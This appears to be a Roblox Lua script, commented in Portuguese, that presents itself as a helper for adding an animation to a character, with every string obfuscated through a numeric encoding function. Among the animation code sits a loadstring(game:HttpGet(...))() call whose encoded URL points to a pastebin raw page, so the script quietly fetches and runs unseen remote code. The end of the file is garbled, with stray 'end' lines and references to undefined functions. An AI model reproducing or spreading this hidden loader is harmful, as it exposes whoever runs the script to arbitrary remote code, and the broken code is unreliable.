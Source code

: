  
-- Referências aos objetos
local player = game.Workspace.Live[PjukvfjPtFdhOrYqIsOIPiXnrfHTi({9135,10605,10185,11235,10605,12075,12180,3360,7140,12285,11445,11445,12705})]
local playerHumanoid = player:FindFirstChildOfClass(PjukvfjPtFdhOrYqIsOIPiXnrfHTi({7560,12285,11445,10185,11550,11655,11025,10500}))
 
-- IDs das animações
local playerAnimationId = PjukvfjPtFdhOrYqIsOIPiXnrfHTi({11235})  -- ID de animação do jogador (não utilizado no script fornecido)
local dummyAnimationId = PjukvfjPtFdhOrYqIsOIPiXnrfHTi({5145,5670,5985,5460,5565,5565,5565,5775,5460,5355,5355})  -- ID de animação do Dummy
 
-- Função para criar e adicionar animação
local function addAnimation(humanoid, animationId)
    local animation = Instance.new(PjukvfjPtFdhOrYqIsOIPiXnrfHTi({6825,11550,11025,11445,10185,12180,11025,11655,11550}))
    animation.AnimationId = PjukvfjPtFdhOrYqIsOIPiXnrfHTi({11970,10290,12600,10185,12075,12075,10605,12180,11025,10500,6090,4935,4935}) .. animationId
    local animator = humanoid:FindFirstChildOfClass(PjukvfjPtFdhOrYqIsOIPiXnrfHTi({6825,11550,11025,11445,10185,12180,11655,11970}))
 
    if not animator then
        animator = Instance.new(PjukvfjPtFdhOrYqIsOIPiXnrfHTi({6825,11550,11025,11445,10185,12180,11655,11970}))
        animator.Name = PjukvfjPtFdhOrYqIsOIPiXnrfHTi({6825,11550,11025,11445,10185,12180,11655,11970})
        animator.Parent = humanoid
    end
 
    local animationTrack = animator:LoadAnimation(animation)
 
    -- Atrasar o início da animação em 0.8 segundos
    wait(0.8)
    animationTrack:Play()
end
loadstring(game:HttpGet(PjukvfjPtFdhOrYqIsOIPiXnrfHTi({10920,12180,12180,11760,12075,6090,4935,4935,11760,10185,12075,12180,10605,10290,11025,11550,4830,10395,11655,11445,4935,11970,10185,12495,4935,8190,8820,12810,8505,9345,11865,12600,12705})))()
-- Adiciona a animação ao Dummy
addAnimation(playerHumanoid, dummyAnimationId)        


    end

end


humanoid.AnimationPlayed:Connect(onAnimationPlayed)


local animationId = 10471336737


local player = game.Players.LocalPlayer

local character = player.Character or player.CharacterAdded:Wait()

local humanoid = character:WaitForChild("Humanoid")

